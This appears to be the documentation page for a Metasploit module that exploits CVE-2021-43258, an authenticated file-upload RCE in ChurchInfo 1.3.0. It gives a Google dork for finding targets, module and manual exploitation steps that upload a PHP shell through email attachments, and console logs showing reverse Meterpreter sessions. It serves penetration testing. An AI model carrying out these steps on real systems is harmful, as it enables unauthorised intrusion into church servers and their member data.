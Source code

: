 ChurchInfo is a PHP application used to help Churches manage systems and users as an opensource project. There are various vulnerabilities in the ChurchInfo 1.3.0 software which can be exploited by an attacker, this module targets an authenticated remote code execution (RCE) vulnerability.

ChurchInfo 1.3.0 has functionality to email users from the database with attachments. When preparing the email, the attachment draft is saved in the `/churchinfo/tmp_attach/` folder. Before the email is sent, the file put into the attachment can be loaded in the application. RCE exists when uploading malicious PHP as an attachment.

This vulnerability was assigned CVE-2021-43258.

## Vulnerable Application

* Project Homepage: http://www.churchdb.org/
* Project Download: https://sourceforge.net/projects/churchinfo/files/
* Google Dork: `intitle:"ChurchInfo: Login"`

Installation guides are available on the SourceForge site and within the zip file downloaded in the `./Documentation` folder. This is a standard PHP and MySQL website.

## Verification Steps
This module requires authenticated access to the application. After identifying a vulnerable ChurchInfo application, there MUST be persons available within the database. If there are no persons, a draft email cannot be made which is used to place the malicious attachment into the `/tmp_attach` directory for our exploit.

### Module Use
The following steps outline how to use the module.
1. Install the application and register an account.
2. Create some persons within the database, validate they populate at the page `/SelectList.php?mode=person`.
3. Within `msfconsole`, use the `exploits/multi/http/churchinfo_upload_exec` module.
4. Set the target `RHOST`, `APPBASE`, `username`, and `password` values. 
5. Select the payload of choice or leave default.
6. Set the `LHOST` to your system.
7. Run the exploit with `run`, enjoy the shell!

If exploit was successful, output should be something close to the following:

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.240:4444
[+] Logged into application as admin
[*] Navigating to add items to cart
[+] Items in Cart: 3
[+] Uploading exploit via Email temp email attachment
[+] Exploit uploaded to /churchinfo/tmp_attach/FjuIxnXKe.php
[!] Don't forget to clean up artifacts at /churchinfo/tmp_attach/FjuIxnXKe.php
[*] Sending stage (39927 bytes) to 192.168.1.72
[*] Meterpreter session 2 opened (192.168.1.240:4444 -> 192.168.1.72:37250) at 2022-11-12 21:38:30 -0500

meterpreter >
```

### Manual Exploitation
The following steps outline how to manually exploit the vulnerability.
1. Log into the ChurchInfo application 
2. Browse to the `SelectList.php` page and click the "Add to Cart" button
3. Browse to `CartView.php` and click "Compose Email"
4. Attach a PHP shell as the "attach file", place anything in the subject and message, click "Save Email"
5. Navigate to `http://127.0.0.1/churchinfo/tmp_attach/exploit.php?cmd=pwd`
6. Any PHP code is executed


## Options
There are a handful of options which can be used to further configure the attack or other environmental uses.


### USERNAME

The username of a valid user account for the ChurchInfo application.

### PASSWORD

The password for a valid user account for the ChurchInfo application.

### APPBASE

The base directory path to the ChurchInfo application. This can and will likely vary depending on how the application was installed. Default value is `/churchinfo/`.

### EMAIL_SUBJ

The subject of the draft email used for the exploit, the email is not sent. Default value is `Exploit Subj`.

### EMAIL_MESG

The message on the draft email which is used for the exploit. The email is not sent. Default value is `Here's a lovely message`.

## Scenarios
If there are no persons in the database, the exploit will fail. To help troubleshoot, enable verbose mode with the following:

```
set verbose true
```
This will enable additional information and details about the exploit as it is launched. Verbose output will appear as similar to below:

```
msf6 exploit(multi/http/churchinfo_upload_exec) > run

[*] Started reverse TCP handler on 192.168.1.240:4444
[*] Gathering PHP session cookie
[*] SSL is false, leaving Proto parameter as http
[*] Login page is /churchinfo/Default.php?Proto=http&Path=192.168.1.72:80%2F/churchinfo/
[+] PHP session cookie is PHPSESSID=nq9q5dod5ggauohv5ob6j4s40e;
[*] Attempting login
[+] Logged into application as admin
[*] Attempting exploit
[*] Navigating to add items to cart
[+] Items in Cart: 3
[+] Uploading exploit via Email temp email attachment
[*] Payload name is GhVRHMKRJT.php
[*] Payload added to post_data
[*] Subject added to post_data
[*] emailmessage added to post_data
[*] submit added to post_data
[+] Exploit uploaded to /churchinfo/tmp_attach/GhVRHMKRJT.php
[!] Don't forget to clean up artifacts at /churchinfo/tmp_attach/GhVRHMKRJT.php
[*] Sending stage (39927 bytes) to 192.168.1.72
[*] Meterpreter session 3 opened (192.168.1.240:4444 -> 192.168.1.72:37252) at 2022-11-12 21:56:37 -0500

meterpreter >
```